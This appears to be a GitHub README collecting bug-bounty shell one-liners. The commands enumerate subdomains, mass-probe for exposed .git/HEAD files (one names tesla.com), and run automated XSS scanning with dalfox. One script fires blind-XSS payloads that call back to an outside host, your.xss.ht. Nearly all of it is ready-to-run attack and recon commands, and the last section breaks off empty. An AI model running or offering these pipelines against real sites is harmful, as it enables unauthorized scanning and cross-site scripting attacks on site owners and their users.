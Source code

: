 # oneliner commands for bug bounties

## Find Subdomain
> projectdiscovery
```bash
subfinder -d target.com -silent | httpx -silent -o urls.txt
```
## Search Subdomain using Gospider
> https://github.com/KingOfBugbounty/KingOfBugBountyTips/
```bash
gospider -d 0 -s "https://site.com" -c 5 -t 100 -d 5 --blacklist jpg,jpeg,gif,css,tif,tiff,png,ttf,woff,woff2,ico,pdf,svg,txt | grep -Eo '(http|https)://[^/"]+' | anew
```

## find .git/HEAD
> @ofjaaah
```bash
curl -s "https://crt.sh/?q=%25.tesla.com&output=json" | jq -r '.[].name_value' | assetfinder -subs-only | sed 's#$#/.git/HEAD#g' | httpx -silent -content-length -status-code 301,302 -timeout 3 -retries 0 -ports 80,8080,443 -threads 500 -title | anew
```

## Check .git/HEAD
> @ofjaaah
```bash
wget https://raw.githubusercontent.com/arkadiyt/bounty-targets-data/master/data/domains.txt -nv | cat domains.txt | sed 's#$#/.git/HEAD#g' | httpx -silent -content-length -status-code 301,302 -timeout 3 -retries 0 -ports 80,8080,443 -threads 500 -title | anew
```

## Find XSS
> cihanmehmet
### Single target
```bash
gospider -s "https://www.target.com/" -c 10 -d 5 --blacklist ".(jpg|jpeg|gif|css|tif|tiff|png|ttf|woff|woff2|ico|pdf|svg|txt)" --other-source | grep -e "code-200" | awk '{print $5}'| grep "=" | qsreplace -a | dalfox pipe -o result.txt
```
### Multiple target
```bash
gospider -S urls.txt -c 10 -d 5 --blacklist ".(jpg|jpeg|gif|css|tif|tiff|png|ttf|woff|woff2|ico|pdf|svg|txt)" --other-source | grep -e "code-200" | awk '{print $5}'| grep "=" | qsreplace -a | dalfox pipe -o result.txt
```
## Find XSS
> dwisiswant0
```bash
#/bin/bash

hakrawler -url "${1}" -plain -usewayback -wayback | grep "${1}" | grep "=" | egrep -iv ".(jpg|jpeg|gif|css|tif|tiff|png|ttf|woff|woff2|ico|pdf|svg|txt|js)" | qsreplace -a | kxss | grep -Eo "(http|https)://[a-zA-Z0-9./?=_-]*" | dalfox pipe -b https://your.xss.ht

# save to .sh, and run bash program.sh target.com
```
## Kxss to search param XSS
> [KingOfBugbounty](https://github.com/KingOfBugbounty/KingOfBugBountyTips)
```bash
```